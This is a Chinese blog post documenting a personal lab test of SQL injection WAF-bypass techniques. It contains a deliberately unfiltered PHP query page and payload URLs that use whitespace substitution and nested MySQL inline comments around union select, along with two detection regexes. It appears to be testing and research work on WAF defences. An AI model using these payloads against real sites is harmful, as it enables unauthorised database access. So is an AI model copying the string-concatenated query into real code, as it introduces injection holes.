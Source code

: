 ```yaml
---
title: Bypass sqli 
date: 2017-12-19 15:54:24
tags:
		- Bypasswaf
		 
categories:
		- WAF
---
```


从网上收集整理一些绕过WAF的一些技巧，测试一下是否真的可以绕过。

<!--more -->

##### Bypass sqli 

20171031

创建数据库

	mysql> create database waf;
	Query OK, 1 row affected (0.00 sec)
	
	mysql> use waf;
	Database changed

测试的两张表

	mysql> create table if not exists `news`(
	    -> `id` int(10) unsigned not null auto_increment,
	    -> `title` varchar(30) not null,
	    -> `content` varchar(256) not null,
	    -> primary key(`id`)
	    -> );
	Query OK, 0 rows affected (0.04 sec)
	
	mysql> insert into `news` (`id`,`title`,`content`) values
	    -> (1,'php','Php is a good lanagule'),
	    -> (2,'python','python is good');
	Query OK, 2 rows affected (0.00 sec)
	Records: 2  Duplicates: 0  Warnings: 0	


user

	mysql> create table `user`(
	    -> `id` int(10) not null auto_increment,
	    -> `name` varchar(30) not null,
	    -> `passwd` varchar(256) not null,
	    -> primary key(`id`)
	    -> );
	Query OK, 0 rows affected (0.04 sec)
	
	mysql> insert into `user` (`id`,`name`,`passwd`) values
	    -> (1,'Tom',md5(123456)),
	    -> (2,'Cary',md5(12345678));
	Query OK, 2 rows affected (0.00 sec)


数据库的连接，将内容展示到前端中。


	<?php
	$id = $_GET['id'];
	$conn = mysqli_connect('127.0.0.1','root','root','waf');
	if(!$conn){
	    die('Could not connect the database');
	}
	//获取get参数数据
	$id = $_GET['id'];
	//未经过滤，直接进数据查询
	$sql = 'select * from news where id='.$id;
	$result = mysqli_query($conn,$sql);
	$row = mysqli_fetch_array($result);
	echo $row['id'];
	echo '<br/>';
	echo $row['title'];
	echo '<hr/>';
	echo $sql;
	mysqli_close($conn);
	?>

测试，看到确实是一个注入点。


![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-10-31/90841889.jpg)


##### 绕过

很多网站都是存在WAF防御，现在测试用来绕过WAF的`payload`在自己的环境上是否可以成功执行,如果执行成功的话，那就测试某家的WAF是否可以防御。

><font color=red>BYPASS WAF的原理。去处理实际上位于WAF设备之后处理应用层数据包的硬件/软件的特性。利用特性构造WAF不能命中，但是在应用程序能够执行成功的载荷，绕过防护。</font>


**union+select**

绕过`union+select`，可以考虑的方法。

1. 空格的替换 `%20、+、 /**/`
2. Mysql中可以利用的空白字符: `%09,%0a,%0b,%0c,%0d,%20,%a0`
3. 内联注释 `/!1222select/`

	%0c = form feed, new page
	
	%09 = horizontal tab
	
	%0d = carriage return
	
	%0a = line feed, new line。 新的一行

对于其中空格的替换，以及`mysql`中可利用的空白字符，可以成功执行。但是结合`union select`测试`WAF`的时候，都可以防御。

	(?i:union\b.*?\bselect\b)

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-10-31/99643534.jpg)
		

mysql可利用空白符的理解。在url中插入这些字符，但是在入库查询的时候，这些字符就不见了，即空白字符。比如`%09`

	127.0.0.1/waf/test.php?id=-1 union%09select 1,user(),3

可以正常执行，注入出数据。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-10-31/77165993.jpg)

那试试`%08`呢？这次就发现，sql语句不能成功执行了。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-10-31/1171748.jpg)


**内联注释**

`Hackbar`自带的几种注释。



![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-1-18/97975578.jpg)

**`/*_STRING_*/`** 能够正确执行，可以出数据，WAF可防御。

	127.0.0.1:8000/waf/test.php?id=-1 /*!union*/ select 1,user (),3 

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-1-18/93606267.jpg)


**`/*!50000_String_*/`** 能够正确执行，可以出数据，WAF可防御。

	127.0.0.1:8000/waf/test.php?id=-1 /*!50000union*/ select 1,user (),3 

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-1-18/75381712.jpg)

**`/*!12345_string_*/`** 能够正确执行，可以出数据，WAF可防御。

	127.0.0.1:8000/waf/test.php?id=-1 /*!12345union+select*/ 1,user (),3 

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-1-18/7930045.jpg)

**`/*!*13337_string_*/`** 能够正确执行，可以出数据，WAF可防御。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-1-18/80373497.jpg)


**`/*!/*!string*/`** 注释，可正确执行，出数据，绕过某锁。

	http://192.168.145.156:8000/test.php?id=-1 union select 1,user(),3

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-1-18/54846943.jpg)

注释一下，绕过。

	http://192.168.145.156:8000/test.php?id=-1/*!/*!union*//*!/*!select*/ 1,user (),3 


![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-1-18/93650271.jpg)


自己又胡乱捣鼓了一下。

	/*! /*!order/*/*/by*/ 3

	http://192.168.145.156:8000/test.php?id=-1 /*!/*!union/*/*/select*/ 1,user(),3

好像也能过去的。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-1-18/4973873.jpg)


对于注释绕过，如何写正则呢？可以看到注释，一定含有 `/*string*/`。匹配`/*string*/`。
	
	(?i:(/\*(.*?)\*/))

	

**思考空格代替**

以上的空格代理的案例，确实可以在实际环境中正确注入出数据，但是在测试设备的时候已经拦截。






##### 参考

[http://www.cnblogs.com/xiaozi/p/7275134.html](http://www.cnblogs.com/xiaozi/p/7275134.html)

[SQL注入中可以替换空格的字符](https://www.2cto.com/article/200810/30021.html)

[SQLi —— 逗号，空格，字段名过滤突破](http://drops.blbana.cc/2017/05/20/SQLi-%E2%80%94%E2%80%94-%E9%80%97%E5%8F%B7%EF%BC%8C%E7%A9%BA%E6%A0%BC%EF%BC%8C%E5%AD%97%E6%AE%B5%E5%90%8D%E8%BF%87%E6%BB%A4%E7%AA%81%E7%A0%B4/)

[Bypass WAF Cookbook](http://drops.xmd5.com/static/drops/tips-7883.html)


	


